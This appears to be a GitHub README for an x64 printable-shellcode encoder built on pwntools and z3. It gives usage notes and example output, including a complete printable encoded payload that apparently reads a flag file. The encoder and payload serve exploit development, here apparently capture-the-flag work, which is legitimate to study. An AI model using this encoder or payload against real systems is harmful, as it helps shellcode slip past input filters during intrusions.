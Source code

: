 # x64 printable shellcode encoder for Python 3

### Dependencies
 - pwntools (`pip install pwntools`)
 - z3 python bindings (`pip install z3-solver`)

### Usage
`./main.py <shellcode file> <pointer to shellcode>`

For the encoded shellcode to work it needs to be able to know where it will execute. This is done by passing the encoder a pointer to your shellcode. This should be an expression that is the address of the start of the shellcode in the victim's address space. For example, if rdx happens to point to your shellcode, use `rdx`. If the shellcode is always at 0x4001000, specify that. Etc. Also, if you want to use a negative offset you must use `base+-offset`. This is because I hacked the parser together really quickly.

#### Examples
- `./main.py shellcode.bin rcx`
- `./main.py shellcode.bin [rsp+-8]`
- `./main.py shellcode.bin 0x0123456789abcdef`
- `./main.py shellcode.bin rbp+5`

### Example output
```
$ python main.py shellcode.bin rax+0x150
Encoding stage2
488b0432 => 4863343a31343a53582d702835332d74205f5f35543c6f5f505e31343a57582d7c6f3f7e2d405042402d40407e41505f
480faf44 => 4863343a31343a53582d505040792d743020693574703059505e31343a57582d7c6f3f7e2d405042402d40407e41505f
32084889 => 4863343a31343a53582d244874202d5f606c20354f5f5736505e31343a57582d7c6f3f7e2d405042402d40407e41505f
043a83c7 => 4863343a31343a53582d402233402d706020203554472f58505e31343a57582d7c6f3f7e2d405042402d40407e41505f
0883c610 => 4863343a31343a53582d403346322d7020207e35582f5f5f505e31343a57582d7c6f3f7e2d405042402d40407e41505f
85c075e8 => 4863343a31343a53582d204775202d202160403545575f77505e31343a57582d7c6f3f7e2d405042402d40407e41505f
Multiply-encoding stage3
eb365f31c0040231 => 45375d7168724246 6f4047487268284e
f60f054889c76681 => 456453557d232227 7e3e7d2d6b72697d
ecff0f4889e648c7 => 615a285150304752 6c3f4c4848644a47
c2ff0f000031c00f => 4178757b577d6869 423f6f5f41715055
0531ff4080c70148 => 3d7d537e307c7458 694f37294a726258
89c231c0ffc00f05 => 41233b202b406267 497538523e77406d
31ff31c0043c0f05 => 43667e753a6f6443 7b5f2c5b2b444651
e8c5ffffff2f7072 => 51424b2d33383b23 68457d3f3f2b7076
6f632f666c616700 => 5d774b667832573f 3b553d6f4d7e5b55
Assembling jump at +408

Encoding preamble for rdx <- rax+0x150
PPTAYAXVI31VXXXf-0~f-@Bf-@>PZ

Original length: 72
Encoded length:  556
Preamble length: 29
Total length:    585

PPTAYAXVI31VXXXf-0~f-@Bf-@>PZTAYAXVI31VXPP[_Hc4:14:SX-p(53-t __5T<o_P^14:WX-|o?~-@PB@-@@~AP_Hc4:14:SX-PP@y-t0 i5tp0YP^14:WX-|o?~-@PB@-@@~AP_Hc4:14:SX-$Ht -_`l 5O_W6P^14:WX-|o?~-@PB@-@@~AP_Hc4:14:SX-@"3@-p`  5TG/XP^14:WX-|o?~-@PB@-@@~AP_Hc4:14:SX-@3F2-p  ~5X/__P^14:WX-|o?~-@PB@-@@~AP_Hc4:14:SX- Gu - !`@5EW_wP^14:WX-|o?~-@PB@-@@~AP_SX- `Ba- @BA5X^{]P_Hc4:14:SX-*90 -E'  5n}?/P^14:WX-|o?~-@PB@-@@~AP_SX- `@a- @PA5\^o]P^SX-@@@"-y``~5____P_AAAAE7]qhrBFo@GHrh(NEdSU}#"'~>}-kri}aZ(QP0GRl?LHHdJGAxu{W}hiB?o_AqPU=}S~0|tXiO7)JrbXA#; +@bgIu8R>w@mCf~u:odC{_,[+DFQQBK-38;#hE}??+pv]wKfx2W?;U=oM~[U
```
